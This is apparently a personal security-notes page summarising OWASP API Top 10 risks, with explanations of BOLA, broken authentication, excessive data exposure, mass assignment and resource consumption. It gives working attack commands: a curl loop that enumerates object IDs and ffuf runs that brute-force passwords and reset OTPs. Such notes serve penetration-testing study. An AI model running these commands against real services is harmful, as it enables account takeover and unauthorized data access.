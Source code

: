 ```yaml
---
layout: default
title: API attacks
permalink: /Web/API/
---
```


# OWASP API Top 10 Security Risks using a RESTful web API

## Broken Object Level Authorization (BOLA)
Web APIs allow users to request data or records by sending various parameters, including unique identifiers such as Universally Unique Identifiers (UUIDs), also known as Globally Unique Identifiers (GUIDs), and integer IDs. Failing to properly verify that a user has permission to view a specific resource through object-level authorization mechanisms can lead to security vulnerabilities.
BOLA also known as an Insecure Direct Object Reference (IDOR) vulnerability.

Mass abuse BOLA from terminal:
```
for ((i=1; i<=20; i++));
do curl -s -w "\n" -X 'GET' \
'http://$ip:$port/endpoint/'$i'' \
-H 'accept: application/json' \
-H 'Authorization: Bearer eyJhbG<SNIP>' | jq;
done
```

## Broken Authentication
No rate-limiting on the endpoint, so brute-forcing is possible.
```
ffuf -w /opt/useful/seclists/Passwords/xato-net-10-million-passwords-10000.txt:PASS -w customerEmails.txt:EMAIL -u http://$ip:$port/api/v1/authentication/customers/sign-in -X POST -H "Content-Type: application/json" -d '{"Email": "EMAIL", "Password": "PASS"}' -fr "Invalid Credentials" -t 100
```
### Brute-forcing OTPs and Answers of Security Questions
If brute-forcing passwords is infeasible due to strong password policies, we can attempt to brute-force OTPs or answers to security questions to reset passwords.
Send a password reset and then fuzz the OTP:
```
ffuf -u http://$ip:$port/api/v1/authentication/customers/passwords/resets \
-X POST \
-H "accept: application/json" \
-H "Content-Type: application/json" \
-d '{"Email":"$email","OTP":"FUZZ","NewPassword":"123456"}' \
-w /opt/useful/seclists/Fuzzing/4-digits-0000-9999.txt
```
## Broken Object Property Level Authorization
### Excessive Data Exposure
Example: Exposure of Sensitive Information Due to Incompatible Policies. <br>
It is typical for e-commerce marketplaces to allow customers to view supplier details. However, if the response after invoking the `/api/v1/suppliers GET` endpoint includes also the email and phoneNumber fields of the suppliers, then costumers can circumvent the marketplace entirely and contact suppliers directly to purchase goods (at a discounted price).

### Mass Assignment
Example: Improperly Controlled Modification of Dynamically-Determined Object Attributes. <br>
Maybe the `/api/v1/supplier-companies PATCH` endpoint allows sending a value for the isExemptedFromMarketplaceFee field, making the a company not get included in the companies required to pay the marketplace fee.

## Unrestricted Resource Consumption
A web API is vulnerable to Unrestricted Resource Consumption if it fails to limit user-initiated requests that consume resources such as network bandwidth, CPU, memory, and storage. 
We might be able to upload files without proper limitations or spamming an endpoint uncontrollably.
